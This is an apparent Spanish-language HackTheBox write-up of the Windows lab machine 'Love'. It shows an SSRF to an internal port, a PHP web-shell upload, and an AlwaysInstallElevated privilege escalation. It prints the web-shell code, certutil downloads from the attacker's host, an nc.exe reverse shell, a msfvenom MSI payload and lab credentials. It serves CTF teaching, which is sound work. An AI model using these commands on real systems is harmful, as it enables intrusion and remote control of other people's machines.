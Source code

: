 ```yaml
---
layout      : post
title       : "HackTheBox - Love"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344banner.png
category    : [ htb ]
tags        : [ .msi, arbitrary-file-upload ]
---
```

Máquina **Windows** nivel fácil, escanearemos archivos locales (**localhost**) en busca de malware e.e Encontraremos credenciales y generaremos votantes con fotos de perfil peligrosas... Jugaremos con registros e instalaremos paquetes **MSI** algo traviesos.

![344loveHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344loveHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [pwnmeow](https://www.hackthebox.eu/profile/157669).

Caminos para caminantes con caminos caminantes e.e

Nos enfrentaremos a un servicio web con dos logins, uno de ellos nos permite jugar con usuarios y contraseñas, enumerando un dominio distinto al default, llegamos a una web que escanea archivos en búsqueda de malware, el archivo se lo debemos pasar por medio de una **URL**, jugaremos con esto para ver recursos locales (`http://localhost`) a los que externamente no tenemos acceso, en esa labor lograremos enumerar un servicio web alojado en el puerto **5000** (`http://localhost:5000`), de él encontraremos unas credenciales para un usuario llamado **admin**, las usaremos contra uno de los login y entraremos a una plataforma que administra un sistema de votaciones...

Estando dentro podremos agregar **votantes**, a cada votante se le puede adjuntar una imagen de perfil, usaremos esto para agregar un objeto `.php` que nos permita ejecutar código remotamente, mediante él lograremos una **Reverse Shell** como el usuario `phoebe` en la máquina.

***Hice un script que nos crea el votante, ejecuta comandos en el sistema y hace como si no hubiera pasado nada e.e***

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

Estando dentro nos apoyaremos de varias guías sobre **PrivEsc Windows** para encontrar un tipo de escalada llamada **AlwaysInstallElevated**, tendremos que jugar con 2 registros del sistema y validar si están habilitados, en caso de que lo estén podremos instalar paquetes `MSI` con permisos administrativos. Veremos que lo están, así que generaremos un paquete **MSI** malicioso con ayuda de `msfvenom` que una vez se esté instalando nos genere una **Reverse Shell**. Con esto lograremos una Shell como el usuario `NT AUTHORITY SYSTEM` (diosito) en el sistema.

***Yyyy un `autopwn`, con él conseguimos una Shell en el mismo script como el usuario `administrador` del sistema.***

> [autopwnLove.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/autopwnLove.py).

Basta, a rompernos la cara!! e.e

...

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Más o menos de todo, intenta jugar con vulns conocidas, pero es bastante juguetona.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

Es momento de diversificar los distintos pensamientos...

1. [Reconocimiento](#reconocimiento).
  * [Escaneo de puertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Enumeración servidor web - puerto 80](#puerto-80).
  * [Enumeración certificado web - puerto 443](#puerto-443).
3. [Explotación](#explotacion).
  * [Encontrando credenciales del usuario **admin** contra un login web](#enum-creds-admin).
  * [RCE mediante una subida aleatoria de archivos - usuario **Phoebe**](#rce-php-file).
  * [Obtención de credenciales usuario **Phoebe** para generar una Shell estable con **evil-winrm**](#phoebe-evilrm).
4. [Escalada de privilegios](#escalada-de-privilegios).
5. [Post PrivEsc - Usamos **mimikatz** para extraer hashes **NTLM** y hacer *passthehash*](#post-privesc-ntlm-hashes).
  * [Pass-The-Hash - evil-winrm](#post-privesc-pth-winrm).
  * [Pass-The-Hash - psexec.py](#post-privesc-pth-psexec).

...

## Reconocimiento [#](#reconocimiento) {#reconocimiento}

---

### Enumeración de puertos con **nmap** [🔗](#enum-nmap) {#enum-nmap}

Como siempre iniciaremos escaneando los puertos abiertos de la máquina, así empezaremos a encaminar nuestra investigación:

```bash
❱ nmap -p- --open -v 10.10.10.239 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.239
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.239 ()	Status: Up
Host: 10.10.10.239 ()	Ports: 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 3306/open/tcp//mysql///, 5000/open/tcp//upnp///, 5040/open/tcp//unknown///, 5985/open/tcp//wsman///, 5986/open/tcp//wsmans///, 7680/open/tcp//pando-pub///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 85.24 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Servidor web |
| 135    | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre programas |
| 139    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 443    | **[HTTPS](https://es.wikipedia.org/wiki/Protocolo_seguro_de_transferencia_de_hipertexto)**: Servicio web "seguro" |
| 445    | **[SMB](https://www.varonis.com/blog/smb-port/)**: Ayuda a la transferencia de archivos en la red |
| 3306   | **[MySQL](https://neoattack.com/neowiki/mysql/)**: Servidor de bases de datos |
| 5000   | No lo sabemos aún con certeza |
| 5985   | **[WinRM](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 5986   | **[WinRM (HTTPS)](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/)**: Permite realizar tareas administrativas remotamente |
| 7680   | No lo sabemos a ciencia cierta |
| 5040,49664,49666,49667 | Desconocidos |
| 49668,49669,49670      | Desconocidos |

Bastantes puertos, ahora juntando todos los servicios activos vamos a hacer otro escaneo, pero este para obtener las versiones de cada servicio y si existen scripts relacionados con ellos:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.239
    [*] Open ports: 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV 10.10.10.239 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

En este caso obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Mon Jun 21 25:25:25 2021 as: nmap -p 80,135,139,443,445,3306,5000,5040,5985,5986,7680,49664,49666,49667,49668,49669,49670 -sC -sV -oN portScan 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.11s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, NULL, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '10.10.14.103' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-21T16:28:22+00:00; +25m20s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=7%D=6/21%Time=60D0B785%P=x86_64-pc-linux-gnu%r(NU
...
...
...
...x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h10m20s, deviation: 3h30m02s, median: 25m19s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-06-21T09:28:08-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-21T16:28:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 21 25:25:25 2021 -- 1 IP address (1 host up) scanned in 182.94 seconds
```

Tenemos algunas cositas relevantes:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |
| 443    | HTTPS    | Apache httpd 2.4.46 OpenSSL/1.1.1j PHP/7.3.27 |

* Además de un dominio: `staging.love.htb`.
* Y un nombre de organización: `ValentineCorp`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows 10 Pro 19042 |
| 5000   | HTTP     | Servidor web con Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27) |

Listones, hemos terminado nuestra enumeración con **nmap**, ahora profundicemos en cada servicio y veamos en cuál tenemos posibilidad de romper cositas...

...

## Enumeración [#](#enumeracion) {#enumeracion}

---

### Puerto 80 [🔗](#puerto-80) {#puerto-80}

![344page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80.png)

Un login... Intentando distintos ID's nos responde con esto:

> Cannot find voter with the ID

Así que podríamos intentar algún tipo de fuerza bruta para encontrar si algún **ID** nos devuelve una respuesta distinta, peeero antes, podemos probar a agregar el dominio que encontramos en el escaneo de **nmap** al archivo `/etc/hosts` y ver si nos responde algo al hacer peticiones hacia él:

```bash
❱ cat /etc/hosts
...
10.10.10.239  staging.love.htb
...
```

> [¿Que es el archivo **hosts**?](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/).

Y ahora en la web pondríamos el dominio:

![344page80staging](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging.png)

Perfecto, tenemos otro servicio que esta respondiendo contra ese dominio, así que ahora tenemos más para probar... **(Lo del fuzzeo por ID's no nos dio ninguna respuesta, así que F)**

Se trata de un servidor web en producción aún que se encarga de analizar archivos en busca de malware y cositas así, dirigiéndonos al apartado **Demo** (arriba a la izquierda) nos lleva a `/beta.php`:

![344page80staging_betaPHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP.png)

En él podemos añadir un archivo mediante una **URL** y la web hará el respectivo escaneo del objeto en busca de malware...

Después de jugar con este apartado no logramos nada interesante (ni **reverse shells**, ni archivos `.php` con instrucciones simples (`echo 'hola';`), ni `.exe`'s, nada de eso nos funcionó), peeero sabemos que esta funcionando y que además algunos archivos `.php` los interpreta, ¿cómo lo sabemos?, sencillito... 

Escaneamos el archivo `index.php` del servidor local, que sería el correspondiente a `http://10.10.10.239/index.php`:

![344page80staging_betaPHP_localhost](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost.png)

Y nos responde con su **body**:

![344page80staging_betaPHP_localhost_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost_res.png)

Pero poquito poquito podemos hacer con esto...

Jugando con `dirsearch` y `wfuzz` para realizar un fuzzeo en la web principal (`http://10.10.10.239`) encontramos varios recursos más, pero solo algunos interesantes (y a los que tenemos acceso):

```bash
❱ wfuzz -c --hc=404,403 -w /opt/SecLists/Discovery/Web-Content/common.txt http://10.10.10.239/FUZZ
```

![344bash_fuzz_page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_fuzz_page80.png)

Visitando `/admin` obtenemos otro login, pero ahora nos pide usuario y contraseña... 

![344page80_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin.png)

Probando con los de siempre, nos damos cuenta de que al colocar cualquier cosa en el campo **Username**, nos responde con:

> Cannot find account with the username

Pero al colocar el usuario **admin** nos devuelve:

> Incorrect password

Así que sabemos que el usuario **admin** existe en la base de datos (:

Visitando el recurso `/includes` vemos una lista de archivos:

![344page80_includes_list](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_list.png)

Dando clic en `navbar.php` encontramos un error, y en ese error la ruta absoluta donde esta alojado el servidor web:

![344page80_includes_navbar](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_includes_navbar.png)

No podemos hacer nada con esto, peeeeeero puede llegar a ser importante en caso de querer subir archivos o algo así. Guardao'...

...

### Puerto 443 [🔗](#puerto-443) {#puerto-443}

Después de nuestra enumeración con el puerto 80, nos pondremos a enumerar el servicio **HTTPS**, colocando en el navegador `https://10.10.10.239` nos responde que no tenemos acceso a ese recurso :( Peeero podemos apoyarnos de `openssl` para ver información del certificado **SSL** con el que se cuenta:

```bash
❱ openssl s_client -connect 10.10.10.239:443
```

Al ejecutarlo podemos destacar el dominio que ya habíamos visto con **nmap**, pero también un **email**:

```bash
...
depth=0 C = in, ST = m, L = norway, O = ValentineCorp, OU = love.htb, CN = staging.love.htb, emailAddress = roy@love.htb
...
```

Bien, podemos extraer el usuario `roy` del email...

Probando con él ante **SMB** y ante los demás recursos no logramos alguna otra respuesta a las que teníamos, pero bueno, guardémoslo por si algo (:

...

## Explotación [#](#explotacion) {#explotacion}

---

### Encontrando credenciales del usuario <u>admin</u>, login web [🔗](#enum-creds-admin) {#enum-creds-admin}

Después de un tiempo de estar perdido y sin esperanzas e.e 

Estuvimos jugando con los demás puertos activos, nos dimos cuenta de que al realizar peticiones hacia la `http://10.10.10.239:5000` volvíamos a recibir:

> You don't have permission to access this resource.

Acá recordé lo que habíamos hecho con el analizador de archivos (que habíamos escaneado un objeto **local**), intentando en vez de escanear el `index.php`, hacerlo contra el `index.php` pero del servidor **web** alojado en el puerto **5000** (que ni idea si exista), curiosamente obtenemos una respuesta:

![344page80staging_betaPHP_localhost5000](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000.png)

![344page80staging_betaPHP_localhost5000_res](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80staging_betaPHP_localhost5000_res.png)

Encontramos que el servicio del puerto **5000** es uno relacionado con **passwords** yyy vemos una para el usuario **admin** (que sabíamos que existía), pues probémoslas:

* Username: `admin`.
* Password: `@LoveIsInTheAir!!!!`.

![344page80_admin_login_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_login_done.png)

Listones, son válidas 🤼

---

### RCE mediante una subida aleatoria de archivos [🔗](#rce-php-file) {#rce-php-file}

Jugando nos damos cuenta de que podemos agregar **votantes**

![344page80_admin_addvoters](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters.png)

Damos clic en **New** y vemos:

![344page80_admin_addvoters_form](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Podemos añadir una imagen de perfil 😏 pues en vez de una imagen, intentemos subir un archivo `.php` con código que nos permita ejecutar comandos en el sistema:

```bash
❱ cat quesedice.php 
<?php $command=shell_exec($_GET['xmd']); echo $command; ?>
```

Lo que reciba la variable `xmd` a través del método [**GET**](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/get-vs-post/), será ejecutado en el sistema (gracias a la función `shell_exec()`, pero podríamos usar `system()`, `exec()` y otras más), el resultado de la ejecución se guarda en la variable `command` y mostrado en pantalla con ayuda de `echo`. Por ejemplo, si somos el usuario **web** y hacemos `xmd=whoami`, se ejecutara `whoami` en el sistema y guardara **web** en la variable `command`, lo siguiente será ver ese resultado con el `echo $command`.

Nuestro formulario quedaría así (en mi caso):

![344page80_admin_addvoters_form_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_form.png)

Guardamos y:

![344page80_admin_addvoters_lanz](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_admin_addvoters_lanz.png)

Vemos el icono de la imagen en todo el centro, la arrastramos (como si quisiéramos abrirla en otra ventana) y nos redirige a la URL `http://10.10.10.239/images/quesedice.php`:

![344page80_images_quesedicePHP](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP.png)

Al parecer esta interpretando el código, solo que `shell_exec` esta vacío y nos muestra ese error, juguemos con el método **GET** para ejecutar el comando `whoami`:

```html
http://10.10.10.239/images/quesedice.php?xmd=whoami
```

Obtenemos:

![344page80_images_quesedicePHP_whoami](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_whoami.png)

Opa, tenemos ejecución remota de comandos (: El usuario que esta ejecutando el servidor web se llama `phoebe`, por lo tanto vamos a estar ejecutando comandos como ese usuario (:

**Ya confirmamos *RCE*, ahora entablémonos una Reverse Shell:**

Podemos descargar el binario `nc.exe` desde [acá](https://eternallybored.org/misc/netcat/) (netcat 1.12), una vez los tengamos en nuestro sistema, los movemos o nos movemos donde estén los binarios y levantamos un servidor web con ayuda de **Python**:

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora procedemos a indicarle a la máquina que se descargue el binario `nc.exe` y lo guarde en su sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=certutil.exe -f -split -urlcache http://10.10.14.103:8000/nc.exe c:\\Users\\phoebe\\Videos\\nc.exe
```

Guardamos el binario en la carpeta **Videos** del usuario **phoebe**... La web nos responde:

```html
**** Online **** 0000 ... 96d8 CertUtil: -URLCache command completed successfully. 
```

Validamos que se haya descargado y exista en el sistema:

```html
http://10.10.10.239/images/quesedice.php?xmd=dir c:\Users\phoebe\Videos\nc.exe
```

![344page80_images_quesedicePHP_dir_videos](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344page80_images_quesedicePHP_dir_videos.png)

Listones, ahora simplemente le indicamos que una vez entable una conexión con el puerto **4433** de nuestra máquina nos lance por ahí una `cmd.exe` (una terminal de **Windows**).

**Pero claro, antes tenemos que ponernos en escucha por el puerto **4433**:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Ahora sí, procedamos:

```html
http://10.10.10.239/images/quesedice.php?xmd=c:\Users\phoebe\Videos\nc.exe 10.10.14.103 4433 -e cmd.exe
```

YyyyyYyaysdfyyayyYYYYyy:

![344bash_nc_phoebe_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_nc_phoebe_RevSH.png)

Peeeeeeeeerfecto, tamos con una terminal en el sistema como el usuario **phoebe**.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344google_gif_yeahslowgolf.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

...

He creado un script para facilitar la ejecución remota de comandos, solo debemos pasarle el "comando" y no debemos preocuparnos de nada más (:

> [arbitrary_up_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/arbitrary_up_RCE.py).

...

### Obtención PowerShell estable con evil-winrm [🔗](#phoebe-evilrm) {#phoebe-evilrm}

Enumerando el sistema y la raíz del servidor web, encontramos el archivo que hace la conexión con la base de datos:

```powershell
c:\\xampp\htdocs\omrs\includes>type conn.php
```

```php
<?php
        $conn = new mysqli('localhost', 'phoebe', 'HTB#9826^(_', 'votesystem');

        if ($conn->connect_error) {
            die("Connection failed: " . $conn->connect_error);
        }

?>
```

Tenemos al usuario **phoebe** y su contraseña contra el servicio **MySQL**... 

Pero haciendo reutilización de contraseñas y jugando con la herramienta [evil-winrm](https://github.com/Hackplayers/evil-winrm) logramos obtener una **PowerShell** como el usuario **Phoebe** en el sistema:

```bash
❱ evil-winrm -i 10.10.10.239 -u 'phoebe' -p 'HTB#9826^(_'
```

![344bash_evilwinrm_phoebe](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_phoebe.png)

Así que ya podemos salirnos de la **Reverse Shell** (:

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema por encima buscando formas de escalar no encontramos nada interesante, o bueno, encontramos una carpeta algo "llamativa" en la raíz del sistema:

```powershell
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         4/21/2021   9:52 AM                Administration
...
```

Dentro hay unos objetos, pero nada que sacar de ellos, así que tamos igual...

De ahí me fui para la web y busqué algunas guías sobre **PrivEsc Windows**, llegamos a esta de [HackTricks](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation), allí encontramos una manera de escalar llamada [AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated), en la cual debemos validar si dos [registros del sistema](https://es.wikipedia.org/wiki/Registro_de_Windows) están habilitados (que tengan el valor `0x1`), en caso de que lo estén tendremos la posibilidad de instalar [Microsoft Windows Installer Package Files (MSI)](https://es.wikipedia.org/wiki/Windows_Installer) (paquetes **MSI**) con permisos administrativos así no los tengamos (: pues validemos los dos registros:

```powershell
*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Bien, siguiente:

```powershell
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Perfecto, entonces tenemos la posibilidad de instalar paquetes **MSI** con permisos administrativos, apoyémonos de **msfvenom** para crear un paquete malicioso que cuando intente **instalarlo** nos genere una Reverse Shell:

> [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).

**Asignamos nuestra IP y el puerto en el que estaremos escuchando...**

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.103 LPORT=4433 -f msi -o ajaterompi.msi
```

Ejecutamos y obtenemos el paquete:

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: ajaterompi.msi
```

Ahora, subimos el paquete a la máquina víctima y procedemos a instalarlo:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> certutil.exe -f -urlcache -split http://10.10.14.103:8000/ajaterompi.msi c:\Users\Phoebe\Videos\ajaterompi.msi
```

> **Nos ponemos en escucha por el puerto 4433: `nc -lvp 4433`**

Ahora ejecutamos:

```powershell
*Evil-WinRM* PS C:\Users\Phoebe\Videos> msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi
```

Donde (gracias a [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting)):

* `/quiet` permite **bypassear** el **control de cuentas de usuario ([UAC](https://java.com/es/download/help/uac.html))**.
* `/qn` le indica al programa que no nos ejecute una interfaz gráfica.
* `/i` es el que le dice que queremos hacer una **instalación** de un paquete.

Listo, entendiendo que estamos haciendo, procedemos a ejecutar la línea...

Pero no pasa nada ): Acá se me ocurrió que el problema podría ser **PowerShell**, así que volviendo a usar él [script]() para ejecutar comandos en el sistema, le decimos que nos ejecute esa línea:

```bash
❱ python3 arbitrary_up_RCE.py -c 'msiexec /quiet /qn /i c:\Users\Phoebe\Videos\ajaterompi.msi'
```

Y en nuestro listener:

![344bash_script_msiexec_adminSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_script_msiexec_adminSH.png)

Obtenemos la **Reverse Shell** como el usuario administrador del sistema (:

Recopilamos lo usado:

* [HackTricks - AlwaysInstallElevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated).
* [cd6629.gitbook.io - windows privesc - AlwaysInstallElevated](https://cd6629.gitbook.io/ctfwriteups/windows-privesc#alwaysinstallelevated).
* [vulp3cula.gitbook.io - privesc windows - AlwaysInstallElevated setting](https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-windows#alwaysinstallelevated-setting).

Veamos las flags...

![344flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344flags.png)

Y listones, hemos terminado la máquina, linda, lindo camino.

...

He creado un script **autopwn**:

